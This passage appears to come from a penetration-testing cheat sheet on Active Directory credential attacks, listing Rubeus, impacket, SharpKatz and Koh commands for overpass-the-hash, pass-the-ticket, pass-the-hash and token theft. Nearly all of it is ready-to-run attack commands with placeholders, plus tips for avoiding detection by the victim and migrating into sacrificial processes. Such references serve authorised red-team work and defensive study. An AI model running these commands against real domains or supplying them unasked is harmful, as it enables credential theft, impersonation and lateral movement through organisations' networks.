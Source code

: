 - Create sacrificial process/logon session: this method will NOT overwrite the current TGT but requires elevated privileges on the current system:
	- 1\. Start sacrificial process/logon session:
		- Request TGT and import it directly in a sacrificial process/logon session \(Rubeus\): `Rubeus.exe asktgt /user:<username> /domain:<FQDN> /aes256:<aes256 key> /nowrap /opsec /createnetonly:C:\Windows\System32\cmd.exe`
		- Start empty sacrificial process/logon session \(use this to later import a kirbi ticket via rubeus ptt /ticket:<kirbi\.ticket>\) \(Rubeus\): `Rubues.exe createnetonly /program: C:\Windows\System32\cmd.exe`
	- 2\. Migrate to the created sacrificial process to use the requested TGT \(for PoshC2 use: migrate <pid>\)
- Import TGT in current Windows session \(this will overwrite the TGT of current user and will most likely be visable by the victim due authentication failures\) \(Rubeus\): `Rubeus.exe asktgt /user:<USER> /aes256:<HASH> /ptt (/dc:<FQDN DC>) (/domain:<FQDN of target domain>)`
- Import TGT in current Linux session
	- 1\. Request ticket \(impacket\): `python getTGT.py <FQDN>/<USER> -aesKey <aes_key> -dc-ip <DC IP>`
	- 2\. Set the TGT for impacket use: `export KRB5CCNAME=<TGT_ccache_file>`
	- 3\. Use the TGT with \([impacket](https://github.com/SecureAuthCorp/impacket)\) suite and specify the ‘\-k’ and ‘\-no\-pass’ parameters\. 

#### _Pass\-The\-Ticket:_
Pass The Ticket attacks are similar to OverPass\-The\-Hash\. In this case instead of retrieving the ticket using a NTLM hash, AES key or password, the ticket is extracted from the host where the user is currently authenticated and can therefore be used as a form of session passing\.
- 1\. Check what TGT/TGS are stored in memory \(only shows other users TGT’s if elevated\) \([Rubeus](https://github.com/GhostPack/Rubeus)\): `Rubeus.exe triage`
- 2\. Extract ticket from current session or identified session if elevated \(Rubeus\): `Rubeus.exe dump /nowrap (/luid:<LUID value of other user>)`
- 3\. Import ticket:
	- In current session \(not elevated\) \(Rubeus\): `Rubeus.exe /ptt /ticket:<base64 ticket string>`
	- In new logon session \(elevated\): 
		- 1\. Create sacrificial logon session \(Rubeus\): `Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe`
		- 2\. Pass the TGT into the sacrificial logon session \(Rubeus\): `Rubeus.exe ptt /luid:<LUID of sacrificial logon session> /ticket:[<base64\ticket>]`

#### _Pass\-the\-Hash:_
Perform pth that will create a new process under the context of the provided credentials\.
>It is mandatory to run the SharpKatz command in an elevated session\.
- 1\. Start new process based on pth \([SharpKatz](https://github.com/b4rtik/SharpKatz)\): `SharpKatz.exe --Command pth --User <username> --Domain <domain> --NtlmHash <hash>`
- 2\. Migrate to the new process to use the provided user privileges\. 

#### _Credential material capture via token/logon session leakage:_
This technique allows for user credential material capture via purposeful token/logon session leakage. Original blog post can be found [here](https://posts.specterops.io/koh-the-token-stealer-41ca07a40ed6). 
>The tool only supports Cobalt Strike. 
- 1\. Start the server to capture any tokens by running the C# Koh.exe binary (make sure to run in SYSTEM context) \([Koh](https://github.com/GhostPack/Koh)\): `Koh.exe capture`
- 2\. List (non-network) logon sessions (Koh BOF): `koh list`
- 3\. Check in what groups the listed user accounts are in (Koh BOF): `koh groups <LUID>`
- 4\. If one of the tokens has (local) admin privileges on some other system, impersonate that user account (Koh BOF): `koh impersonate <LUID>`
